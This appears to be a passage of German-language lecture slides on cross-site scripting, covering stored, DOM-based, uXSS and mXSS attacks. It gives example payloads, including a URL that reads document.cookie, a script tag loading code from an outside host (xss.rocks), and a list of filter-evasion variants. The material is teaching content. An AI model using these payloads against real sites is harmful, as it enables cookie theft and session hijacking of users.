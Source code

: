 ## Stored/Persistent XSS

Javascript wird am Server gespeichert

Z.b. folgendes als Chat-Nachricht:
``` html
<script>alert(1);</script>
```

## DOM-based XSS

* DOM-based
* Durch Modifikation/Injecten des Schadcodes im DOM
* Server ist nicht direkt involviert

## Beispiel

http://www.some.site/page.html?default=French

``` html
<select><script>
document.write("<OPTION value=1>"+document.location.href.substring(document.location.href.indexOf("default=")+8)+"</OPTION>");
document.write("<OPTION value=2>English</OPTION>");
</script></select>
```

``` url
http://www.some.site/page.html?default=<script>alert(document.cookie)</script>
```

## DOM-based: warum interessant?

- Documentation am Server?
- http://snikt.net/app/libs/jquery/docs/search.html

## uXSS

Angriffe gegen den Browser..

## mXSS

Browser modifizieren übertragenen Code und "erzeugen" auf diese Weise XSS-verseuchte Webseiten

* z.B. bei Verwendung von X-XSS-Protection

## XSS kann an vielen Stellen auftreten

```html
<script>alert(1);</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>

<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC="non-existant" onerror="alert('xxs')">
<IMG SRC="jav    ascript:alert('XSS');">
<BGSOUND SRC="javascript:alert('XSS');">
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
```
